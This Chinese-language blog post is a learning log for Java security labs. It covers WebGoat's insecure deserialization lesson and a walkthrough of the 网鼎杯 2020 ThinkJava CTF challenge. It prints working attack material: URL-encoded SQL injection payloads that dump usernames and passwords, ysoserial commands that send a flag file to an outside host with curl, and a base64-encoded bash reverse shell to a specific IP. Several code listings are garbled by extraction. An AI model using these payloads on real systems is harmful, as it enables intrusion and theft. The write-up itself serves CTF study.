1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 package org.dummy.insecure.framework;import lombok.extern.slf4j.Slf4j;import java.io.BufferedReader;import java.io.IOException;import java.io.InputStreamReader;import java.io.ObjectInputStream;import java.io.Serializable;import java.time.LocalDateTime;@Slf4j public class VulnerableTaskHolder implements Serializable {private static final long serialVersionUID = 2 ;private String taskName;private String taskAction;private LocalDateTime requestedExecutionTime;public VulnerableTaskHolder (String taskName, String taskAction) {super ();this .taskName = taskName;this .taskAction = taskAction;this .requestedExecutionTime = LocalDateTime.now();@Override public String toString () {return "VulnerableTaskHolder [taskName=" + taskName + ", taskAction=" + taskAction + ", requestedExecutionTime=" "]" ;private void readObject ( ObjectInputStream stream ) throws Exception {"restoring task: {}" , taskName);"restoring time: {}" , requestedExecutionTime);if (requestedExecutionTime!=null && 10 ))this .toString());throw new IllegalArgumentException ("outdated" );if ((taskAction.startsWith("sleep" )||taskAction.startsWith("ping" ))22 ) {"about to execute: {}" , taskAction);try {Process p = Runtime.getRuntime().exec(taskAction);BufferedReader in = new BufferedReader (new InputStreamReader (p.getInputStream()));String line = null ;while ((line = in.readLine()) != null ) {catch (IOException e) {"IO Exception" , e);
这里代码中重写了readobject函数，并且通过条件语句限制了只能使用sleep或ping在linux与windows环境下实现延迟效果，最后通过Process p = Runtime.getRuntime().exec(taskAction);来触发命令执行。
SerializationHelper里面提供了一些工具类
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 package org.owasp.webgoat.deserialization;import java.io.ByteArrayInputStream;import java.io.ByteArrayOutputStream;import java.io.DataOutputStream;import java.io.IOException;import java.io.ObjectInputStream;import java.io.ObjectOutputStream;import java.io.Serializable;import java.util.Base64;public class SerializationHelper {private static final char [] hexArray = "0123456789ABCDEF" .toCharArray();public static Object fromString (String s) throws IOException,byte [] data = Base64.getDecoder().decode(s);ObjectInputStream ois = new ObjectInputStream (new ByteArrayInputStream (data));Object o = ois.readObject();return o;public static String toString (Serializable o) throws IOException {ByteArrayOutputStream baos = new ByteArrayOutputStream ();ObjectOutputStream oos = new ObjectOutputStream (baos);return Base64.getEncoder().encodeToString(baos.toByteArray());public static String show () throws IOException {ByteArrayOutputStream baos = new ByteArrayOutputStream ();DataOutputStream dos = new DataOutputStream (baos);8699352886133051976L );byte [] longBytes = baos.toByteArray();return bytesToHex(longBytes);public static String bytesToHex (byte [] bytes) {char [] hexChars = new char [bytes.length * 2 ];for (int j = 0 ; j < bytes.length; j++) {int v = bytes[j] & 0xFF ;2 ] = hexArray[v >>> 4 ];2 + 1 ] = hexArray[v & 0x0F ];return new String (hexChars);
接下来就是构造反序列化的payload，我们在webgoat源码中VulnerableTaskHolder所在的目录下新建一个java类，其中的内容写我们需要的恶意代码，如下图所示

1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 package org.dummy.insecure.framework;import java.io.ByteArrayOutputStream;import java.io.ObjectOutputStream;import java.util.Base64;public class SerialMain {static public void main (String[] args) {try {VulnerableTaskHolder go = new VulnerableTaskHolder ("ping" , "ping -n 6 127.0.0.1" );ByteArrayOutputStream bos = new ByteArrayOutputStream ();ObjectOutputStream oos = new ObjectOutputStream (bos);byte [] exploit = bos.toByteArray();String exp = Base64.getEncoder().encodeToString(exploit);catch (Exception e){
代码内容如上图，执行SerialMain后生成token，复制到token处提交。 从console可以看到执行了ping命令，且task任务的响应也会变慢。

如上图成功通过，然后我在解决上述问题的时候突然看到这个webgoat的版本适配的是jdk15，然后我就下载了15的来重新运行webgoat，随后又尝试弹calc，tmd竟然成了！！！—这感觉就是纯纯jdk版本适配问题啊。。。。。。。。。。。还有一点，我在使用bp的collaborator时，一直连接不上去，翻了多个文章发现是校园网的问题。。。。。无语住了

8.3 SerializationDumper 数据分析
项目地址：https://github.com/NickstaDB/SerializationDumper
这个可以用来进行Java反序列化1payload之类的数据分析
1 java -jar SerializationDumper-v1.13 .jar -r 1. bin > 1. txt

如图所示，可以较为清楚的展示Java反序列化1数据
8.4 [网鼎杯 2020 朱雀组]ThinkJava

访问首页说没有身份权限，那估计需要先root一下，这里先看题目给的附件
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 package cn.abc.core.controller;import cn.abc.common.bean.ResponseCode;import cn.abc.common.bean.ResponseResult;import cn.abc.common.security.annotation.Access;import cn.abc.core.sqldict.SqlDict;import cn.abc.core.sqldict.Table;import io.swagger.annotations.ApiOperation;import java.io.IOException;import java.util.List;import org.springframework.web.bind.annotation.CrossOrigin;import org.springframework.web.bind.annotation.PostMapping;import org.springframework.web.bind.annotation.RequestMapping;import org.springframework.web.bind.annotation.RestController;@CrossOrigin @RestController @RequestMapping({"/common/test"}) public class Test {public Test () {@PostMapping({"/sqlDict"}) @Access @ApiOperation("为了开发方便对应数据库字典查询") public ResponseResult sqlDict (String dbName) throws IOException {"root" , "abc@12345" );return ResponseResult.e(ResponseCode.OK, tables);
这里给了一个/common/test接口，其中会访问sqlDict接口，接着传入了数据库的账号和密码，我们转到sqlDict看看
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 package cn.abc.core.sqldict;import java.sql.Connection;import java.sql.DatabaseMetaData;import java.sql.DriverManager;import java.sql.ResultSet;import java.sql.SQLException;import java.sql.Statement;import java.util.ArrayList;import java.util.List;public class SqlDict {public SqlDict () {public static Connection getConnection (String dbName, String user, String pass) {Connection conn = null ;try {"com.mysql.jdbc.Driver" );if (dbName != null && !dbName.equals("" )) {"jdbc:mysql://mysqldbserver:3306/" + dbName;else {"jdbc:mysql://mysqldbserver:3306/myapp" ;if (user == null || dbName.equals("" )) {"root" ;if (pass == null || dbName.equals("" )) {"abc@12345" ;catch (ClassNotFoundException var5) {catch (SQLException var6) {return conn;public static List<Table> getTableData (String dbName, String user, String pass) {new ArrayList ();Connection conn = getConnection(dbName, user, pass);String TableName = "" ;try {Statement stmt = conn.createStatement();DatabaseMetaData metaData = conn.getMetaData();ResultSet tableNames = metaData.getTables((String)null , (String)null , (String)null , new String []{"TABLE" });while (tableNames.next()) {3 );Table table = new Table ();String sql = "Select TABLE_COMMENT from INFORMATION_SCHEMA.TABLES Where table_schema = '" + dbName + "' and table_name='" + TableName + "';" ;ResultSet rs = stmt.executeQuery(sql);while (rs.next()) {"TABLE_COMMENT" ));ResultSet data = metaData.getColumns(conn.getCatalog(), (String)null , TableName, "" );ResultSet rs2 = metaData.getPrimaryKeys(conn.getCatalog(), (String)null , TableName);for (PK = "" ; rs2.next(); PK = rs2.getString(4 )) {while (data.next()) {Row row = new Row (data.getString("COLUMN_NAME" ), data.getString("TYPE_NAME" ), data.getString("COLUMN_DEF" ), data.getString("NULLABLE" ).equals("1" ) ? "YES" : "NO" , data.getString("IS_AUTOINCREMENT" ), data.getString("REMARKS" ), data.getString("COLUMN_NAME" ).equals(PK) ? "true" : null , data.getString("COLUMN_SIZE" ));catch (SQLException var16) {return Tables;
这里看到getTableData用来查询数据库数据，其中sql语句没做过滤，存在sql注入，但我们在test中会看到如下图，导入的包中含有swagger

我们百度查一下相关资料：
1 Swagger是一个规范和完整的框架，用于生成、描述、调用和可视化 RESTful 风格的 Web 服务，JAVA在金融机构开发语言的地位一直居高不下，而作为JAVA届服务端的大一统框架Spring，便将Swagger规范纳入自身的标准，建立了Spring-swagger项目，所以在实际测试环境中，基于spring框架的swagger-ui接口展示及调试文档页面最为常见。
这里我们搜的时候会发现他会提示有个swagger-ui漏洞，那我们继续了解一下会发现这玩意儿存在未授权访问漏洞
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 /api
这里也是看了wp要访问swagger-ui.html页面


查看一番发现其有三个接口，对应着题目附件中源码中的java文件，我们可以现在dbName处进行sql注入拿到账号密码
不过这里涉及到了jdbc的sql注入，这里先跟着浅学一下，一会儿深入，我们定位到下图

这里看师傅们说这里由于进行了dbName的拼接，那我们在进行sql注入的时候要满足jdbc协议的连接不能出错，因此这里会用到类似url的锚点（这里做完在了解什么是锚点）
jdbc sql 注入
关于#的使用


在url中#表示锚点，表示网页中的一个位置，比如http:xxx/index.html#aaa，浏览器读取这个url，会将aaa移到可视位置。在第一个#，都会被视为位置标识符，不会被发送到服务端
而jdbc类似于url解析，所以会忽略#后面的字符
而#又是sql注入中的注释符，如果我们需要在url中传#，那么需要进行url编码为%23
查看数据库，这里是get传参，这里测试了几波发现需要将单引号，#和空格进行url编码
1 ?dbName=myapp%23%27%20union%20select%20group_concat(SCHEMA_NAME)from(information_schema.schemata)%23

爆表名dbName=myapp%23%27%20union%20select%20group_concat(table_name)from(information_schema.tables)where(table_schema%3D%27myapp%27)%23

爆字段名：
1 dbName=myapp%23%27%20union%20select%20group_concat(column_name)from(information_schema.columns)where((table_schema%3D%27myapp%27)and(table_name%3D%27user%27))%23

爆用户名密码：
1 dbName=myapp%23%27%20union%20select%20group_concat(name,0x3a,pwd)from%20user%23

这样的话就拿到了用户账号和密码，使用账号密码登录

如上图，登陆成功

往下翻可以看到这里的body部分存在r00ab开头的，这很明显就是Java反序列化1经过base64编码后的结果，那我们验证一下这里是否存在Java反序列化1漏洞

如上图，我们使用的是bp自带的插件，如上图，我们发现确实存在反序列化漏洞

接下来使用ysoserial打
ysoserial
1 2 3 4 java -jar ysoserial-all.jar ROME "curl http://ip:5555 -d @/flag" > 1. bin124.220 .233 .26 /5555 0 >&1 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjQuMjIwLjIzMy4yNi81NTU1IDA+JjE=}|{base64,-d}|{bash,-i}" > 1. bin
上述命令打完记得base64编码

本来我们分析道Authorization会将用户的token信息进行Java序列化并编码，那我们就可以构造而已的Java序列化数据传给Authorization，这样在解析的时候就会反序列化我们的恶意数据，进而拿到shell等。

这里问了一下GPT上述payload的含义：
1 2 3 4 5 6 7 8 9 这段命令使用`curl`工具进行HTTP请求，并包含了一些参数和选项。让我们逐步解释这个命令：
接着尝试一下反弹shell，命令如下：
1 2 bash -i >& /dev/tcp/ip/port 0 >&1 --进行base64编码"bash -c {echo,编码内容}|{base64,-d}|{bash,-i}" > 1. bin --进行base64编码

接着发送至current接口即可，如下图成功拿到shell

这里我们用ysoserial对用户登录成功的数据分析一下

1 Bearer rO0ABXNyABhjbi5hYmMuY29yZS5tb2RlbC5Vc2VyVm92RkMxewT0OgIAAkwAAmlkdAAQTGphdmEvbGFuZy9Mb25nO0wABG5hbWV0ABJMamF2YS9sYW5nL1N0cmluZzt4cHNyAA5qYXZhLmxhbmcuTG9uZzuL5JDMjyPfAgABSgAFdmFsdWV4cgAQamF2YS5sYW5nLk51bWJlcoaslR0LlOCLAgAAeHAAAAAAAAAAAXQABWFkbWlu
不过在此之前需要将上述转为16进制，这里依旧用个python脚本
1 2 3 4 import base64

我们进入文件会发现如下图，name中含有admin，说明这里代码通过反序列化Java数据来判断其中name的值是否为admin
0x09 参考文章
Java反序列化1：
Java 反序列化漏洞入门
Java反序列化1从入门到放弃
浅显易懂的Java反序列化1入门
Java反射：
JAVA反射学习
初探java安全之反射(2)
Java反射
webgoat：
0基础学渗透-WebGoat靶场（五）
WebGoat8.0 Insecure Deserialization
webgoat-Insecure Deserialization不安全的序列化
WebGoat-8.2.2靶场之不安全的反序列化漏洞
Swagger未授权访问漏洞
[网鼎杯 2020 朱雀组]Think Java -1
[网鼎杯 2020 朱雀组]Think Java -2
CTFHUB-think_java(2020-网鼎杯-朱雀组-Web-think_java)